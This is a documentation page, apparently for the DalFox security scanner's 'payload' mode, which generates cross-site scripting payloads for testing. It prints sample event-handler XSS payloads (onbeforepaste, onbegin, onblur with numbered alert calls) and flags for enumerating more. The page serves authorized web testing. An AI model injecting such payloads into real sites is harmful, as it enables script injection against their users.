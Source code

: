 ```yaml
---
title: Payload Mode
permalink: /docs/modes/payload-mode/
has_children: false
parent: Usage
nav_order: 5
toc: true
layout: page
---
```


`payload` mode is a mode for easy testing of XSS. Generate and Enumerate XSS Payloads and wordlists

```
▶ dalfox payload {flags}
```

e.g
```
▶ dalfox payload --enum-injs --entity-event-handler"
```

## Make-Bulk
Make-bulk generates many xss payloads. At this point, the parameters of the alert are configured as sequence and it is easy to find which payload was triggered during the XSS test.
```
▶ dalfox payload --make-bulk
```
output
```
...snip...
<track onbeforepaste=\"alert(488)\" contenteditable>test<\/track>
<tt onbeforepaste=\"alert(489)\" contenteditable>test<\/tt>
<u onbeforepaste=\"alert(490)\" contenteditable>test<\/u>
<ul onbeforepaste=\"alert(491)\" contenteditable>test<\/ul>
<var onbeforepaste=\"alert(492)\" contenteditable>test<\/var>
<video onbeforepaste=\"alert(493)\" contenteditable>test<\/video>
<wbr onbeforepaste=\"alert(494)\" contenteditable>test<\/wbr>
<xmp onbeforepaste=\"alert(495)\" contenteditable>test<\/xmp>
<body onbeforeprint=alert(496)>
<svg><path><animateMotion onbegin=alert(497) dur=\"1s\" repeatCount=\"1\">
<svg><animatetransform onbegin=alert(498) attributeName=transform>
<svg><set onbegin=alert(499) attributename=x dur=1s>
<svg><animate onbegin=alert(500) attributeName=x dur=1s>
<input onblur=alert(501) id=x><input autofocus>
<textarea onblur=alert(502) id=x><\/textarea><input autofocus>
...snip...
```

## Encoder
```
--encoder-url            Encoding output [URL]
```

## Supported
```
--entity-event-handler   Enumerate a event handlers for xss
--entity-gf              Enumerate a gf-patterns xss params
--entity-special-chars   Enumerate a special chars for xss
--entity-useful-tags     Enumerate a useful tags for xss
--enum-attr              Enumerate a in-attr xss payloads
--enum-common            Enumerate a common xss payloads
--enum-html              Enumerate a in-html xss payloads
--enum-injs              Enumerate a in-js xss payloads
--make-bulk              Make bulk payloads for stored xss
--remote-payloadbox      Enumerate a payloadbox's xss payloads
--remote-portswigger     Enumerate a portswigger xss cheatsheet payloads
```

## Screenshots
![1414](https://user-images.githubusercontent.com/13212227/120361642-0b9e1000-c345-11eb-8283-9c0b7fdac8b3.jpg)

